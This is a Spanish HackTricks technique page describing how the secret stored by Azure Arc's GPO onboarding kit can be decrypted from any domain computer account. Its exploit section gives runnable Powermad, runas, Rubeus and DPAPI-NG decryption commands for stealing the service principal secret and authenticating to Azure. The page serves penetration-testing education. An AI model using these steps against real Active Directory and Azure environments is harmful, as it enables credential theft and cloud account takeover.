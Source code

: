 # Az - Script de Implementación de GPO Vulnerable de Azure Arc

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

- Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
- Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
- Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

### Identificación de los Problemas

Azure Arc permite la integración de nuevos servidores internos (servidores unidos al dominio) en Azure Arc utilizando el método de Objeto de Directiva de Grupo (GPO). Para facilitar esto, Microsoft proporciona un kit de implementación necesario para iniciar el procedimiento de incorporación. Dentro del archivo ArcEnableServerGroupPolicy.zip, se pueden encontrar los siguientes scripts: DeployGPO.ps1, EnableAzureArc.ps1 y AzureArcDeployment.psm1.

Cuando se ejecuta, el script DeployGPO.ps1 realiza las siguientes acciones:

1. Crea la GPO de Incorporación de Servidores de Azure Arc dentro del dominio local.
2. Copia el script de incorporación EnableAzureArc.ps1 al recurso compartido de red designado creado para el proceso de incorporación, que también contiene el paquete de instalación de Windows.

Al ejecutar este script, los administradores de sistemas deben proporcionar dos parámetros principales: **ServicePrincipalId** y **ServicePrincipalClientSecret**. Además, requiere otros parámetros como el dominio, el FQDN del servidor que aloja el recurso compartido y el nombre del recurso compartido. También se deben proporcionar detalles adicionales como el ID de inquilino, el grupo de recursos y otra información necesaria al script.

Se genera un secreto cifrado en el directorio AzureArcDeploy en el recurso compartido especificado utilizando el cifrado DPAPI-NG. El secreto cifrado se almacena en un archivo llamado encryptedServicePrincipalSecret. Se puede encontrar evidencia de esto en el script DeployGPO.ps1, donde el cifrado se realiza llamando a ProtectBase64 con $descriptor y $ServicePrincipalSecret como entradas. El descriptor consta de los SID de los grupos Domain Computer y Domain Controller, asegurando que el ServicePrincipalSecret solo pueda ser descifrado por los grupos de seguridad Domain Controllers y Domain Computers, como se indica en los comentarios del script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Explotar

Tenemos las siguientes condiciones:

1. Hemos penetrado con éxito en la red interna.
2. Tenemos la capacidad de crear o asumir el control de una cuenta de computadora dentro de Active Directory.
3. Hemos descubierto una carpeta compartida que contiene el directorio AzureArcDeploy.

Existen varios métodos para obtener una cuenta de máquina dentro de un entorno de AD. Uno de los más comunes es explotar la cuota de cuentas de máquina. Otro método implica comprometer una cuenta de máquina a través de ACL vulnerables u otras configuraciones incorrectas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una vez que se obtiene una cuenta de máquina, es posible autenticarse utilizando esta cuenta. Podemos usar el comando runas.exe con la bandera netonly o usar pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Al tener el TGT de nuestra cuenta de computadora almacenado en la memoria, podemos usar el siguiente script para descifrar el secreto principal del servicio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

En este punto, podemos recopilar la información restante necesaria para conectarnos a Azure desde el archivo ArcInfo.json, que se encuentra almacenado en el mismo recurso compartido de red que el archivo encryptedServicePrincipalSecret. Este archivo contiene detalles como: TenantId, servicePrincipalClientId, ResourceGroup, y más. Con esta información, podemos utilizar Azure CLI para autenticarnos como el principal de servicio comprometido.

## Referencias

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
